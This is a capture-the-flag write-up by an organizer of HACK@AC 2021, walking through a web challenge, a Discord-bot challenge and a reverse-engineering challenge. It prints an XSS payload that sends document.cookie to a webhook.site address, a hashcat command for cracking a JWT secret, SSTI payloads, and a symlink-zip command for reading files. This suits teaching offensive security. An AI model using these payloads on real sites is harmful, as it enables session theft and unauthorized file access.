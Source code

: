 #HACK@AC 2021 Writeups by samuzora

HACK@AC is a CTF organized by the Anglo-Chinese School (Independent) Robotics Technology Society, held on 16 Oct 2021. I was part of the organizing team and made a grand total of 4 challenges (one got removed later on). It was generally quite a fun experience for all (excluding !help) and I learnt quite a bit from organizing this CTF, from dockerizing applications to debugging trivial typos. Below are writeups for some of the challenges, both made by me and by others.

[Web](#web)

[Misc](#misc)

[Unreleased](#unreleased)




## Web

### FatherBoat

Difficulty: Hard

Solves: 0 :<

Link: http://139.59.124.129:51000/

Description: You've heard of Mothership but have you heard of FatherBoat? Due to Mothership stealing all their visitors, the company couldn't make enough revenue to hire a good web dev. Before he left, he might have screwed over some stuff... Don't be too harsh on them please.

Author: Lucas

Intended Solution:
1. XSS
  Payload: `<script>fetch("https://webhook.site/unique-id/?c="+document.cookie)</script>`
  Explanation: The website tells us that one requires approval from the admin to post a story. Instead of getting approval from the admin, one can instead be the admin and thus bypass the approval process, especially since the admin seems to be sleeping/braindead. XSS is possible here as the story of the user is injected directly into the HTML DOM. The cookie is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ImZhbHNlIn0.OqbksdUdBezk8bCqbh7wJOBuHFIKGoKGkdbAiu9SiJk`
2. Hashcat
  Payload: `./hashcat.exe -a 3 -m 16500 ./.hash --increment ?l?l?l?l?l?l`
  Explanation: After obtaining the token from the admin and checking it out with jwt.io, it seems like even the admin isn't an admin, which sucks tbh. (blame it on the dev) So we have to crack the JWT secret. Luckily for us, the secret isn't very long, so it can be cracked easily using Hashcat (6 lowercase chars). The key is "father".
3. SSTI
  Payload: `{{get_file('flag.txt')}}`
  Explanation: After verifying ourselves as the admin, we can successfully submit stories. However, upon submitting a story, the website prompts us that "Server-side story sharing" has yet to be implemented. This is a direct hint towards Server Side Template Injection (SSTI), so one can test for possible SSTI with ``{{7*7}} or {{7*'7'}}``. Then at a loss of what exactly to do, one might attempt `{{config.items()}}` and stumble upon 2 important key-value pairs: `('BUILT_IN', 'get_file()'), ('FLAG', 'flag.txt')`. Afterwards it's easy, just `{{get_file('flag.txt')}}` to get the flag, `ACSI{gr4ndf4th3r_v3ssel}`.

Comments:

This challenge was made quite last minute, as we were kinda short of hard web challenges. The puppeteer was especially hard to set up. Originally I tried using the Python import of puppeteer, pyppeteer, but it turned out to be a nightmare. Afterwards I just set up an API for the JS puppeteer and the Python flask app to interact. According to inside info, HCI had already solved the XSS part, but they realized it was a multi-part challenge and just gave up :(. Hence 0 solves

## Misc

### !help

Difficulty: ~~Medium~~ **HARD**

Solves: 3 (all HCI btw)

Description: There's a bot in the CTF discord that seems unusually quiet. Maybe try DMing it? I hear he gives flags...

Author: Lucas

Intended Solution:

**Zip Slip**

The intended (obvious) solution was to exploit the fact that the bot only accepted .zip files in the !upload command. Admittedly, without sufficient experience this might have been hard to spot, but granted that the participants were allowed to google I thought that this wouldn't be too difficult. Anyway, the 2-liner command to generate the symlink and zip it is as follows: `ln -s /flag.txt link; zip -y payload.zip link`. Then !upload `payload.zip` and the bot will return the flag, `ACSI{symb0l1c_link5}`. For more info, click [here](https://snyk.io/research/zip-slip-vulnerability).

Comments:

I really underestimated the difficulty of this challenge. Originally, it was a much simpler and much easier directory traversal via the !image command which allows one to view any image/file in the bot's machine. However, *a certain person* said it was too easy and suggested a zip slip vulnerability instead. Sorry to all who attempted this challenge, I've heard your cries for *!help*, and will tone down the difficulty of similar challenges in the future. For the record, a total of 3 hints were given for this challenge, and a 4th would have been given had a certain flag hoarder from HCI not submitted his flag.

## Unreleased

### revnew (RE)

Difficulty: HARD

Solves: NA

Description: NA

Author: Elijah

Solution:

(According to Elijah, I can just ignore all the mallocs so here goes nothing.) Decompile the provided binary in IDA64. First important line is `scanf("%s", s);`, this just takes in the user input into `s`. Also we have `srand(0x10F2Cu);`, which sets the seed to 69420 in decimal. Next is `v67 = 8 * ((unsigned __int64)&v9[7] >> 3);`, which apparently makes `v67` a pointer to `s` (idk how). Afterwards we have a for loop, which loops through `s` and calls `(rand() % 21 + 69) * s[i]` into v25. Note that the output of rand() can be replicated as the seed is known. Then `s[i] = v25`. Then `  strcpy(v23, "01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000");` just means that v23 is set to `01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000` (important btw). Now we have another loop, which just loops through `s` and `dest += hex(s[i])`. Skipping through 25+ lines of arbitrary mallocs wait nvm we can't skim through cos the important statements are here and there... Brief summary: ```v24 = unhex(dest)
v18 = binary(v24)
v6 = len(v18)

v6 = len(v24)
v12 = str(v18+2)[:(v6-7)]
v15 += v12``` Lastly, we come to a very primitive XOR gate, where v23 is xored with v15 to get our output. Pseudocode (python-like) of what just happened: ```s = input()
random.seed(69420)
v28 = 0
v69 = len(s)
v68 = v69 -1
v67 = 8 * (0 right shift 3)

for i in range(v69):
    v4 = rand()
    v25 = v4 % 21 + 69
    v25 = s[i] * v25
    v5 = v25
	s[i] = v5

v23 = "01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000"

dest = ''

for i in range(v69):
	src = hex(s[i])
    dest += src

v24 = unhex(dest)
v18 = binary(v24)
v6 = len(v18)

v6 = len(v24)
v12 = str(v18+2)[:(v6-7)]
v15 += v12

if v36 >= v35:
    v33 = v36
else:
    v33 = v35

for i in range(v33):
    if v23[i] == v15[i]:
		v9[i] = '0'
    else:
		v9[i] = '1'

print(v9)```

The way to approach this problem is to work backwards with what we have. So assuming the start of the output we want is ACSI{, we can work backwards to find out that `dest = 1d26 2730 22...` in hex. Afterwards, an RNG script was written in C to replicate `v4 = rand()`. Then converting each byte in `dest` to decimal and dividing it by the respective `v4`s, we obtain `[r` in binary converted to ASCII. Wait did I mention that `strcpy(s, "[redacted]");` was important? `strcpy(s, "[redacted]");` is important. Now, realize that Elijah is a sadist who likes to watch people suffer with the key right under their nose and decompile horrendous C code with mallocs littered everywhere and the correct input is actually `[redacted]`, so go ahead and input that to obtain the flag, `ACSI{th3_he4p_1s_a_1ie}`. Overall this challenge was ~~A NIGHTMARE THAT I SPENT 2 WEEKS ON~~ pretty easy. I hope you understand why this challenge was unreleased.
